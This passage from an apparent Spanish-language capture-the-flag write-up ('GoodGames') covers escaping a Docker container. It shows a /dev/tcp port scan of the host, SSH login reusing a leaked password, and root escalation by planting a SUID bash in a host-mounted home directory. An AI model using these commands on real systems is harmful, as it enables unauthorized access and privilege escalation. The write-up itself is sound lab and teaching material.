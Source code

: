 ### Escalada De Privilegios Vía Docker Escape

* * *

Enumerando los adaptadores de red observamos que la Ip del contenedor es `172.19.0.2`. Habitualmente Docker asigna la primera dirección de la subred al host. Procedemos a escanear la IP `172.19.0.1` para ver posibles puertos abiertos para un posible movimiento lateral. También localizamos el nombre de un usuario en la carpeta `home` llamado `augustus`

```bash
root@3a453ab39d3d:/backend# for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT  &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
port 22 is open
port 80 is open
```

Localizamos puertos 22 y 80 abiertos. Probamos a conectarnos por ssh con el usuario `augustus` y la contraseña anteriormente revelada `superadministrator`

```bash
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ whoami
augustus
```
Localizamos la flag de usuario en su directorio personal `/home/augustus`

```bash
augustus@GoodGames:~$ cat /home/augustus/user.txt 
782c233c281f642d7***************
```
Observando detenidamente el /etc/passwd del contenedor vemos que no hay ningún usuario augustus por lo que deducimos que el deirectorio `/home/augustus` es una montura del directorio home del host. Se nos ocurre copiar el binario de bash dentro de la carpeta home de augustus, volver al contenedor donde somos root, asignamos propietario y grupo root a la bash, asignamos privilegios SUID y nos volvemos a conectar al host con augustus por ssh y ya tenemos una bash con privilegio SUID donde podemos acceder a root con el comando `bash -p`

```bash
augustus@GoodGames:~$ pwd
/home/augustus
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/backend# cd /home/augustus/
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod u+s bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1 s password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```